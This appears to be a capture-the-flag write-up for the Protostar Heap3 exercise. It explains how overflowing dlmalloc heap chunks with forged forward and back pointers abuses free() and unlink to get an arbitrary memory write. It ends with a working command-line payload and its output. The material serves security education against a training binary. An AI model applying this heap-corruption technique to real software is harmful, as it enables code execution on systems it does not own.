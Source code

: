 #### Protostar Heap3 

##### About
This level introduces the Doug Lea Malloc (dlmalloc) and how heap meta data can be modified to change program execution.  
  
This level is at /opt/protostar/bin/heap3

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  char *a, *b, *c;

  a = malloc(32);
  b = malloc(32);
  c = malloc(32);

  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);

  free(c);
  free(b);
  free(a);

  printf("dynamite failed?\n");
}
```

##### Solution
Obviously we can BOF with strcpy(), but the real exploit point is in free().  
  
-- An allocated chunk managed by Doug Lea's Malloc looks like this:
```
    chunk -> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
             | prev_size: size of the previous chunk, in bytes (used   |
             | by dlmalloc only if this previous chunk is free)        |
             +---------------------------------------------------------+
             | size: size of the chunk (the number of bytes between    |
             | "chunk" and "nextchunk") and 2 bits status information  |
      mem -> +---------------------------------------------------------+
             | fd: not used by dlmalloc because "chunk" is allocated   |
             | (user data therefore starts here)                       |
             + - - - - - - - - - - - - - - - - - - - - - - - - - - - - +
             | bk: not used by dlmalloc because "chunk" is allocated   |
             | (there may be user data here)                           |
             + - - - - - - - - - - - - - - - - - - - - - - - - - - - - +
             |                                                         .
             .                                                         .
             . user data (may be 0 bytes long)                         .
             .                                                         .
             .                                                         |
nextchunk -> + + + + + + + + + + + + + + + + + + + + + + + + + + + + + +
             | prev_size: not used by dlmalloc because "chunk" is      |
             | allocated (may hold user data, to decrease wastage)     |
             +---------------------------------------------------------+
```

-- Free chunks are stored in circular doubly-linked lists and look like this:
```
    chunk -> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
             | prev_size: may hold user data (indeed, since "chunk" is |
             | free, the previous chunk is necessarily allocated)      |
             +---------------------------------------------------------+
             | size: size of the chunk (the number of bytes between    |
             | "chunk" and "nextchunk") and 2 bits status information  |
             +---------------------------------------------------------+
             | fd: forward pointer to the next chunk in the circular   |
             | doubly-linked list (not to the next _physical_ chunk)   |
             +---------------------------------------------------------+
             | bk: back pointer to the previous chunk in the circular  |
             | doubly-linked list (not the previous _physical_ chunk)  |
             +---------------------------------------------------------+
             |                                                         .
             .                                                         .
             . unused space (may be 0 bytes long)                      .
             .                                                         .
             .                                                         |
nextchunk -> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
             | prev_size: size of "chunk", in bytes (used by dlmalloc  |
             | because this previous chunk is free)                    |
             +---------------------------------------------------------+
```

The circular doubly-linked lists are used to managed free chunks so that they can be allocated for later use.  
  
When free an allocated chunk mentioned above, function free() will check the previous and next chunk beside it in memory are free chunks or not, and then consolidate it with the free chunk, to increase allocation performance and reduce fragmentation.
  
The free chunks should be unlinked from the circular doubly-linked list before consolidation, then be joined to the list again as a single chunk after consolidation. Because though these chunks are next to each others in memory, they may be not the adjacent nodes in the circular doubly-linked list.  
  
The operation unlinked a free chunk look like this:
```
/* take a chunk off a list */

#define unlink(P, BK, FD) \
{ \
BK = P->bk; \
FD = P->fd; \
FD->bk = BK; \
BK->fd = FD; \
} 
```

Both of the memory writes use source and destination addresses stored in the chunk headers, specifically chunk forward and backward pointers. we can control the pointers to write any 4 bytes to anywhere if the location is writable.  
  
During freeing a chunk, the operation mentioned above is executed only when the following conditions are satisfied:  
1. (a) The IS_MMAPPED bit(penult bit of chunk->size) of this chunk should be set to 0.  
2. (b) The previous chunk is a free chunk, which means the PREV_INUSE bit(last bit of chunk->size) of this chunk should be set to 0;  
or (c) The next chunk is a free chunk, which means the PREV_INUSE bit(last bit of chunk->size) of next next chunk should be set to 0.

We can satisfy these conditions by BOF and counterfeit fd and bk pointers to change the program execution process or execute our shellcode in heap.  

There's still one thing should be noticed, function free() try to find the previous chunk or the next chunk by minusing this chunk's prev_size from or adding it's size to it's starting address. These two sizes can be set to negative so that we can construct two virtual chunks controlled by us and bypass the null character.
  
To write a workable payload please refer to the first reference, it is very explicit and easy-to-understand.
```
$ ./heap3 `python -c 'print "\x90"*10 + "\x68\x64\x88\x04\x08\xc3 " + "\xff"*32 + "\xfc\xff\xff\xff"*2 + " CCCC\x1c\xb1\x04\x08\x04\xc0\x04\x08"'`
that wasn't too bad now, was it? @ 1417761066
```

##### Reference
<https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3>  
<http://www.phrack.org/issues/57/8.html>  
